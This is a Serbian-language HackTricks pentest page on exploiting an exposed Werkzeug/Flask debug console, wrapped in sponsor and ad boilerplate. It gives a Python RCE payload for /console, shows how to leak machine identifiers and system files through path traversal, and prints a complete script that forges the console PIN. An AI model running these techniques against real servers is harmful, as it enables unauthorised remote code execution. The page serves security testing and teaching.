 # Werkzeug / Flask Debug

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Trenutno dostupno podešavanje za procenu ranjivosti i testiranje proboja**. Pokrenite kompletan pentest od bilo kog mesta sa 20+ alata i funkcija koje idu od rekonstrukcije do izveštavanja. Mi ne zamenjujemo pentestere - mi razvijamo prilagođene alate, module za otkrivanje i eksploataciju kako bismo im vratili neko vreme da dublje kopaju, otvaraju ljuske i zabavljaju se.

{% embed url="https://pentest-tools.com/" %}

## Console RCE

Ako je debug aktivan, možete pokušati da pristupite `/console` i steknete RCE.

```python
__import__('os').popen('whoami').read();
```

![](<../../.gitbook/assets/image (317).png>)

Takođe postoje različiti eksploiti na internetu poput [ovog ](https://github.com/its-arun/Werkzeug-Debug-RCE)ili jedan u metasploit-u.

## Pin zaštićen - Traversiranje putanje

U nekim slučajevima, **`/console`** endpoint će biti zaštićen pinom. Ako imate **ranjivost traverziranja datoteka**, možete procuriti sve potrebne informacije za generisanje tog pina.

### Eksploatacija PIN-a Werkzeug konzole

Prisilite grešku u debagiranju aplikacije da biste videli ovo:

```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```

Poruka u vezi sa scenarijem "zaključane konzole" se pojavljuje prilikom pokušaja pristupa Werkzeug-ovom debug interfejsu, ukazujući na potrebu za PIN-om kako bi se otključala konzola. Predlog je da se iskoristi PIN konzole analiziranjem algoritma generisanja PIN-a u Werkzeug-ovom debug inicijalizacijskom fajlu (`__init__.py`). Mekanizam generisanja PIN-a može se proučiti iz [**Werkzeug izvornog koda na repozitorijumu**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), iako se preporučuje da se stvarni serverski kod nabavi putem ranjivosti prolaska kroz fajlove zbog mogućih razlika u verzijama.

Za iskorišćavanje PIN-a konzole, potrebna su dva skupa promenljivih, `probably_public_bits` i `private_bits`:

#### **`probably_public_bits`**

* **`username`**: Odaje korisnika koji je pokrenuo Flask sesiju.
* **`modname`**: Obično označen kao `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Generalno se rešava u **Flask**.
* **`getattr(mod, '__file__', None)`**: Predstavlja puni put do `app.py` unutar Flask direktorijuma (npr. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Ako `app.py` nije primenljiv, **pokušajte sa `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Dohvata MAC adresu trenutne mašine, sa `str(uuid.getnode())` prevodi je u decimalni format.
* Da biste **odredili MAC adresu servera**, morate identifikovati aktivni mrežni interfejs koji koristi aplikacija (npr. `ens3`). U slučaju neizvesnosti, **procuretajte `/proc/net/arp`** da biste pronašli ID uređaja, zatim **izdvojite MAC adresu** iz **`/sys/class/net/<device id>/address`**.
* Konverziju heksadecimalne MAC adrese u decimalni format možete izvršiti na sledeći način:

```python
# Primer MAC adrese: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

* **`get_machine_id()`**: Spaja podatke iz `/etc/machine-id` ili `/proc/sys/kernel/random/boot_id` sa prvom linijom `/proc/self/cgroup` nakon poslednje kosine (`/`).

<details>

<summary>Kod za `get_machine_id()`</summary>

\`\`\`python def get\_machine\_id() -> t.Optional\[t.Union\[str, bytes]]: global \_machine\_id

if \_machine\_id is not None: return \_machine\_id

def \_generate() -> t.Optional\[t.Union\[str, bytes]]: linux = b""

## machine-id is stable across boots, boot\_id is not.

for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot\_id": try: with open(filename, "rb") as f: value = f.readline().strip() except OSError: continue

if value: linux += value break

## Containers share the same machine id, add some cgroup

## information. This is used outside containers too but should be

## relatively stable across boots.

try: with open("/proc/self/cgroup", "rb") as f: linux += f.readline().strip().rpartition(b"/")\[2] except OSError: pass

if linux: return linux

## On OS X, use ioreg to get the computer's serial number.

try:

````
</details>

Nakon prikupljanja svih potrebnih podataka, eksploatacijski skript može biti izvršen kako bi generisao Werkzeug konzolni PIN. Skript koristi sastavljene `probably_public_bits` i `private_bits` kako bi kreirao heš, koji zatim prolazi kroz dodatnu obradu kako bi se generisao konačni PIN. U nastavku je Python kod za izvršavanje ovog procesa:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
````

Ovaj skript generiše PIN tako što hešira konkatenirane bitove, dodaje specifične soli (`cookiesalt` i `pinsalt`), i formatira izlaz. Važno je napomenuti da stvarne vrednosti za `probably_public_bits` i `private_bits` treba tačno dobiti sa ciljnog sistema kako bi generisani PIN odgovarao očekivanom od strane Werkzeug konzole.

Ako koristite **staru verziju** Werkzuga, pokušajte promeniti **algoritam heširanja u md5** umesto sha1.

### Reference

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)

<img src="../../.gitbook/assets/image (2) (1) (1).png" alt="" data-size="original">

**Instantno dostupno podešavanje za procenu ranjivosti i testiranje proboja**. Pokrenite kompletan pentest od bilo kog mesta sa 20+ alata i funkcija koje idu od rekonstrukcije do izveštavanja. Ne zamenjujemo pentestere - razvijamo prilagođene alate, module za otkrivanje i eksploataciju kako bismo im vratili nešto vremena da dublje kopaju, otvaraju školjke i zabavljaju se.

</details>
